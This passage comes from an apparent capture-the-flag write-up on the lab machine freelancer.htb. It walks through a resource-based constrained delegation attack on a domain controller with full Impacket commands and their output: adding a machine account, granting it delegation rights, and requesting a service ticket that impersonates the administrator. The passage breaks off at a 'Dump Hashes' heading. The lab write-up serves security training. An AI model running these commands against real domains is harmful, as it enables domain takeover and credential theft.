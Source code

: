 
I’ll try `SAMR` and it works:

```

oxdf@hacky$ addcomputer.py -method SAMR -computer-name '0xdf$' -computer-pass '0xdf0xdf123!' -dc-host 10.10.11.5 -domain-netbios freelancer.htb 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Successfully added machine account 0xdf$ with password 0xdf0xdf123!.

```

#### Create RBCD

Now I want to tell the DC that 0xdf$ is allowed to act on it’s behalf using another [Impacket](https://github.com/SecureAuthCorp/impacket) script, `rbcd.py`:

```

oxdf@hacky$ rbcd.py -delegate-from '0xdf$' -delegate-to 'dc$' -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] 0xdf$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     0xdf$        (S-1-5-21-3542429192-2036945976-3483670807-11601) 

```

This requires the `GenericWrite` privilege on the DC account, which lorra199 has.

#### Generate Service Ticket

I’ll have 0xdf$ request a ticket impersonating the administrator account to the DC, and because of the now-configured RBCD, it will work:

```

oxdf@hacky$ getST.py -spn 'cifs/DC.freelancer.htb' -impersonate 'administrator' 'freelancer.htb/0xdf$:0xdf0xdf123!'
Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_DC.freelancer.htb@FREELANCER.HTB.ccache

```

#### Dump Hashes
